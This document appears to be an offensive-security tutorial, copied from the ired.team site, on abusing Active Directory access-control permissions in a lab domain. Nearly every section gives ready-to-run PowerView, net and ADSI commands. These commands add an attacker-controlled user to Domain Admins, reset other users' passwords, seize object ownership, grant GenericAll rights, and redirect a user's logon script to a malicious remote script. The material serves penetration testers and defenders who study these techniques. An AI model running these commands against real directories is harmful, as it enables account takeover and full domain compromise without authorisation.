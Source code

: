 Active Directory objects such as users and groups are securable objects and DACL/ACEs define who can read/modify those objects (i.e change account name, reset password, etc).
Some of the Active Directory object permissions and types that we as attackers are interested in:
- **GenericAll** - full rights to the object (add users to a group or reset user's password)
- **GenericWrite** - update object's attributes (i.e logon script)
- **WriteOwner** - change object owner to attacker controlled user take over the object
- **WriteDACL** - modify object's ACEs and give attacker full control right over the object
- **AllExtendedRights** - ability to add user to a group or reset password
- **ForceChangePassword** - ability to change user's password
- **Self (Self-Membership)** - ability to add yourself to a group


## GenericAll on User
Using powerview, let's check if our attacking user `spotless` has `GenericAll rights` on the AD object for the user `delegate`:

```
Get-ObjectAcl -SamAccountName eblack -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

We can see that indeed our user `spotless` has the `GenericAll` rights, effectively enabling the attacker to take over the account:
![[image 3.avif]]
We can reset user's `delegate` password without knowing the current password:
![[image 13.png]]


## GenericAll on Group
Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```
Get-NetGroup "domain admins" -FullData
```
![[image 4.avif]]
```
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```
We can see that our attacking user `spotless` has `GenericAll` rights once again:
![[image 5.avif]]Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group:

```
net group "domain admins" spotless /add /domain
```

## GenericAll / GenericWrite / Write on Computer
If you have these privileges on a Computer object, you can pull #ResourceBasedConstrainedDelegation off.

## WriteProperty on Group
If our controlled user has `WriteProperty` right on `All` objects for `Domain Admin` group:
![[image 6.avif]]

We can again add ourselves to the `Domain Admins` group and escalate privileges:

```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```


## Self (Self-Membership) on Group
Another privilege that enables the attacker adding themselves to a group:
![[image 7.avif]]```
```
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

## WriteProperty (Self-Membership)
One more privilege that enables the attacker adding themselves to a group:

```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```
![[image 8.avif]]
```
net group "domain admins" spotless /add /domain
```

## ForceChangePassword
If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:
```
Get-ObjectAcl -SamAccountName USERNAME -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```
![[image 14.png]]
Doing the same with powerview:
```
Set-DomainUserPassword -Identity USERNAME -Verbose
```
...or a one liner if no interactive session is not available:
```
Set-DomainUserPassword -Identity USERNAME -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

## WriteOwner on Group
After the ACE enumeration, if we find that a user in our control has `WriteOwner` rights on `ObjectType:All`
```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](https://www.ired.team/~gitbook/image?url=https%3A%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-LQoECV1FDB-H_F_sZZl%252F-LQoEdTkZ0renZwjI4Y7%252FScreenshot%2520from%25202018-11-08%252016-45-42.png%3Falt%3Dmedia%26token%3D976862eb-ca41-4b9d-8c5d-428b1170b89b&width=768&dpr=4&quality=100&sign=1b06d0e2&sv=1)
...we can change the `Domain Admins` object's owner to our user, which in our case is `spotless`. Note that the SID specified with `-Identity` is the SID of the `Domain Admins` group:

```
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```

![](https://www.ired.team/~gitbook/image?url=https%3A%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-LQoECV1FDB-H_F_sZZl%252F-LQoEw6ju4djFcgir36x%252FScreenshot%2520from%25202018-11-08%252016-54-59.png%3Falt%3Dmedia%26token%3D30f0e2f9-fbdb-4194-8c19-3b00f1ee6648&width=768&dpr=4&quality=100&sign=3f29d387&sv=1)

## GenericWrite on User

```
Get-ObjectAcl -ResolveGUIDs -SamAccountName delegate | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](https://www.ired.team/~gitbook/image?url=https%3A%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-LQohCREBZ7Ian7G7pfx%252F-LQojJ2fBHF5Sd_kfc3V%252FScreenshot%2520from%25202018-11-08%252019-12-04.png%3Falt%3Dmedia%26token%3Da03e9724-1d4c-4616-b02f-b318e8ba374c&width=768&dpr=4&quality=100&sign=e436ed0d&sv=1)

`WriteProperty` on an `ObjectType`, which in this particular case is `Script-Path`, allows the attacker to overwrite the logon script path of the `delegate` user, which means that the next time, when the user `delegate` logs on, their system will execute our malicious script:

```
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

## WriteDACL + WriteOwner

If you are the owner of a group, like I'm the owner of a `Test` AD group:
```
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```
![[image 15.png]]
And you have a `WriteDACL` on that AD object:
```
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=test,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```
...you can give yourself [`GenericAll`](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-on-group) privileges with a sprinkle of ADSI sorcery:
```
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:
![[image 9.avif]]This effectively means that you can now add new users to the group.

